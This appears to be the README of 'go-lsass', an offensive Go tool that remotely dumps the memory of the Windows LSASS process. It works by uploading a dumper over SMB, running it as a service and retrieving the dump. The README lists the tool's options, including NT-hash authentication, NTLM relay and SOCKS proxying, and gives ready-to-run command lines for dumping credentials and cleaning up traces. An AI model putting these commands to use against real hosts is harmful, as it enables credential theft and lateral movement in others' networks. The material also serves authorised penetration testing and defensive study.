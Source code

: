 # go-lsass

## Description
Package go-lsass is a tool built to dump the memory of the LSASS process
remotely by uploading a local LSASS dumper, executing it as a service and then
retrieve the dump file using SMB. It is built on top of the library
[go-smb](https://github.com/jfjallid/go-smb) and is designed to primarily work with the
[LSASS dumper](https://github.com/jfjallid/processdumper).

**NOTE** that the LSASS dumper utility is not included in this repo but has to be
downloaded, compiled and then included by the --dumper flag or placed in the
current directory with a name of pdumpsvc.exe.
Also note that the dumpfile when created by the tool processdumper will be
inverted, e.g., every byte will be XOR:ed with 0xFF.

## Usage
```
Usage: ./go-lsass [options]

options:
      --host                Hostname or ip address of remote server
  -P, --port                SMB Port (default 445)
  -d, --domain              Domain name to use for login
  -u, --user                Username
  -p, --pass                Password
  -n, --no-pass             Disable password prompt and send no credentials
      --hash                Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
  -t, --timeout             Dial timeout in seconds (default 5)
      --relay               Start an SMB listener that will relay incoming
                            NTLM authentications to the remote server and
                            use that connection. NOTE that this forces SMB 2.1
                            without encryption.
      --relay-port <port>   Listening port for relay (default 445)
      --socks-host <target> Establish connection via a SOCKS5 proxy server
      --socks-port <port>   SOCKS5 proxy port (default 1080)
      --cleanup             Perform a cleanup of service binary, service, and dumpfile
      --dumper <path>       Path to local lsass dump utility (default pdumpsvc.exe)
      --service <name>      Name of service that will be created to run the lsass dumper (default MiscSVC)
      --service-filename    Name of service binary (default misc.exe)
      --service-dir         Remote path on C: to store service binary (default C:\windows\)
      --dumpfile            Name of lsass dump file written to disk (default misc.log)
      --dumpdir             Remote path on C: to temporarily store the lsass dump (default C:\windows\)
      --output              Path to where to store the lsass dump locally (default lsass.dmp)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -v, --version             Show version
```

## Using a custom lsass dumper
The default dumper tested with this tool is
https://github.com/jfjallid/processdumper. It should be downloaded and compiled
with `make service` to create a PE32 file that can be executed as a Windows
service.

Support for other LSASS dumper binaries is limited to binaries that can be
executed as a Windows service and which accepts two cmdline arguments:
"lsass.exe" and location of where to store the dumpfile which is a combination
of the two arguments --dumpdir and --dumpfile. With default settings, the two
arguments to the service binary are: "lsass.exe" and "C:\windows\misc.log"

## Examples

### Dump LSASS on a domain joined machine using a local account

```
./go-lsass --host server001 --local --user Administrator --pass adminPass123 --dumper pdumpsvc.exe
```

### Dump LSASS on a domain joined machine using a domain user with a custom directory for the service binary and dump file 

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --service-dir C:\\windows\\temp\\ --dumpdir C:\\windows\\temp\\
```

### Cleanup remote files and service manually when automatic cleanup failed
Note that if any of the following custom flags were used during deployment,
they are also required during cleanup:

- --service
- --service-filename
- --service-dir
- --dumpfile
- --dumpdir

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --cleanup
```
